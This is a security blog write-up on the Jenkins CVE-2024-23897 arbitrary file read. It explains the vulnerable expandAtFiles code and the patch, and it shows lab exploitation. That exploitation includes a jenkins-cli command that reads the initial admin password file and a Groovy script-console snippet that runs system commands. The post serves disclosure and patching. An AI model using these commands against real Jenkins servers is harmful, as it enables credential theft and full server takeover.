 # Compromise Jenkins reading files CVE-2024-23897


# 💣 From a minor verbose error to full compromise

## The origin

On **January 25, 2024**, researchers from Sonar published 2 vulnerabilities related to the leader in open-source continuous integration and continuous deployment (CI/CD) software: **Jenkins**.

Jenkins plays a central role in **automating software development processes** for a large part of the industry, holding about **44% market share in 2023**. The potential impact of these vulnerabilities is therefore **significant**.

The most concerning flaw, identified as **CVE-2024-23897**, allows unauthenticated attackers to read limited data from arbitrary files and "read-only" authorized attackers to access an entire file on the Jenkins server.

Two vulnerabilities are explained:

- The vulnerability **CVE-2024-23897**:
    - A CVSS score of **9.8/10** (quite concerning) 😮
    - An anonymous attacker can read a limited portion of local files.
- The vulnerability **CVE-2024-23898**:
    - A CVSS score of 8.8/10
    - Allows an attacker to execute arbitrary CLI commands by enticing a victim to click on a malicious link (CSRF).

## In short

The most problematic vulnerability is the first one: **CVE-2024-23897**

- Unauthenticated attackers can read **the first lines of local files** present on the server.
- Authenticated "read-only" attackers can access the entire files.
- This vulnerability can be converted into RCE in several ways:
    - By reading files containing the default password
    - By elevating privileges to admin
    - By reading an SSH key
    - By retrieving secrets on the machine
    - Etc...

Jenkins provides other means to obtain direct command execution on its blog: https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Exploiting the first vulnerability is quite straightforward.

### Vulnerable docker

It's possible to test with vulnerable versions via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environment

First, retrieve the Jenkins utility jenkins-cli.jar via command line.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```
![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Vulnerable code

The code below details the vulnerable code.

The function checks if the argument starts with the `@` character, and if so, reads the file at the path following the `@` and creates a new argument for each line.

```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

This means that if an attacker can control an argument, they can extend it to a number of arguments from an arbitrary file on the Jenkins instance.

Hence, exploiting the `expandAtFiles()` function of arg4j displaying a verbose error when attempting to read the file is possible.

### Arbitrary reading...

The command below allows an unauthenticated user to retrieve the first line of the file `/var/jenkins_home/secrets/initialAdminPassword`

```java
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![File reading](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)


### ...to RCE

Thus, it's possible to retrieve the default administrator password if it hasn't been changed.

![Admin connexion](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)

Then, it's possible to log into `/script` to execute our commands.

![Remot code execution](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)


The code below allows the execution of the `/bin/id` command.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

To conclude, a demonstration is available just below!

### Recommended actions

The Jenkins security team has corrected CVE-2024-23897 by adding a secure configuration disabling the `expandAtFiles` feature.

The following line is removed:

```java
    return new CmdLineParser(this);
```

And replaced by the following lines:

```java
public static boolean ALLOW_AT_SYNTAX = SystemProperties.getBoolean(CLICommand.class.getName() + ".allowAtSyntax");
    // [...]
    ParserProperties properties = ParserProperties.defaults().withAtSyntax(ALLOW_AT_SYNTAX);
    return new CmdLineParser(this, properties);
```

The second vulnerability `CVE-2024-23898`, a direct consequence of the first, has been fixed by adding an origin check to the WebSocket mechanism.

Patch quickly !

### Demonstration

Demonstration with the elements detailed above.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploiting Jenkins" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/

